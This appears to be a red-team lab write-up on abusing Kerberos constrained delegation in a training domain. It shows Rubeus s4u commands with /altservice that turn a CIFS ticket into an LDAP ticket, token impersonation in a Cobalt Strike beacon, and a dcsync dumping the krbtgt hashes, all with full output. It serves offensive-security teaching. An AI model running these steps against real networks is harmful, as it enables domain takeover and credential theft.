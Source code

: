 
The cifs service can be leveraged for lateral movement, but what if port 445 was unavailable or we wanted an option other then PsExec?  It was discovered by [Alberto Solino](https://twitter.com/agsolino) that the service name is [not protected](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/) in the Kerberos structure, so we can actually request a TGS for any service run by the original account.  Since the cifs service is run by the computer account by default, it means we can request a TGS for any other service also run by the computer account.

This can be abused using `/altservice` flag in Rubeus.  In this example, we're using the same TGT for SQL-2 to request a TGS for LDAP.


```bash

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /altservice:ldap /user:sql-2$ /ticket:doIFpD[...]MuSU8= /nowrap

# edited command

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /altservice:ldap /user:sql-2$ /ticket:doIFpD[...]MuSU8= /nowrap
[*] Action: S4U

[*] Building S4U2self request for: 'SQL-2$@DEV.CYBERBOTIC.IO'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Sending S4U2self request to 10.10.122.10:88
[+] S4U2self success!
[*] Got a TGS for 'nlamb' to 'SQL-2$@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

      doIFnD[...]FMLTIk

[*] Impersonating user 'nlamb' to target SPN 'cifs/dc-2.dev.cyberbotic.io'
[*]   Final ticket will be for the alternate service 'ldap'
[*] Building S4U2proxy request for service: 'cifs/dc-2.dev.cyberbotic.io'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Sending S4U2proxy request to domain controller 10.10.122.10:88
[+] S4U2proxy success!
[*] Substituting alternative service name 'ldap'
[*] base64(ticket.kirbi) for SPN 'ldap/dc-2.dev.cyberbotic.io':

      doIGaD[...]ljLmlv
			
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGaD[...]ljLmlv
	
[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2580
[+] Ticket successfully imported!
[+] LUID            : 0x4b328e
			
beacon> steal_token 2580
```

Against a domain controller, the LDAP service allows us to perform a dcsync.

```bash

beacon> dcsync dev.cyberbotic.io DEV\krbtgt

[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 8/15/2022 4:01:04 PM
Object Security ID   : S-1-5-21-569305411-121244042-2357301523-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e
      aes128_hmac       (4096) : 6fb62ed56c7de778ca5e4fe6da6d3aca
      des_cbc_md5       (4096) : 629189372a372fda
```